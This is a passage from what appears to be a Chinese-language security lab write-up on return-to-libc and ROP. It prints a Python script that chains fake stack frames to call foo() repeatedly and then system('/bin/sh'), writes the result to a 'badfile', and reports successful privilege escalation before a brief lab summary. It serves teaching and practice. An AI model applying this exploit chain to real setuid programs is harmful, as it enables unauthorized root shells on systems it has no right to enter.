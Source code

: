 ```python
    ebp += 0x20
    content += tobytes(ebp_next)
    content += tobytes(foo_addr)
    content += tobytes(leveret)
    content += b'A'*(0x20-3*4)

# system("/bin/sh")
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(system_addr)
content += tobytes(leaveret)
content += tobytes(sh_addr)
content += b'A' * (0x20 - 4*4)

# exit()
content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)

# Write the content to a file
with open("badfile", "wb") as f:
    f.write (content)
```

运行程序，可以看到调用了 10 次 `foo()` ，并成功提权

<img src="https://i.loli.net/2021/07/14/kGs2PwHXYTzRQyu.png" alt="image-20210714052903073" style="zoom:50%;" />

# 实验总结

实验总体难度一般。Task1 - 3 依葫芦画瓢即可，没有难度；Task4 难度较大，但我大炮轰蚊子，直接用 ROP 解决了 0 如何输入的问题；由此一来，Task5 就很容易解决了。
